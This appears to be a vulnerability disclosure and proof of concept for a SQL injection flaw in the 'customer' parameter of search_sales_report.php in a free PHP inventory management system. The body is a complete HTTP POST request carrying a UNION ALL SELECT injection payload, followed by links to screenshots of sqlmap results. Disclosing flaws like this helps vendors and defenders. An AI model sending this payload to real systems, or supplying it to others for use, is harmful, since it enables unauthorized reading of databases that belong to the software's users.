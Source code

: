 ### Free and Open Source inventory management system - SQLi
### Date: 2024-02/23
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html
### Tested on: MacOs13.5 + phpstudy

# /app/ajax/search_sales_report.php（SQL injections）
/app/ajax/search_sales_report.php SQL injection exists for parameter customer

### Sample request POC #1

```
POST /app/ajax/search_sales_report.php HTTP/1.1
Host: 127.0.0.1:8889
Content-Length: 43
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8889
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8889/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=d2ms7dmo84iasdvoq0rhinhrl2
Connection: close

customer=-9350 UNION ALL SELECT 9630,9630,9630,9630,CONCAT(0x717a626b71,0x764248434c67444f4a7050646d6268436f486c7456587348744242525a66715147646b6369744a6c,0x717a767a71),9630,9630,9630,9630,9630,9630,9630,9630,9630#&issuedate=1-100
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708927078851.jpg "Free and Open Source inventory management system")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708927196358.jpg "Free and Open Source inventory management system")
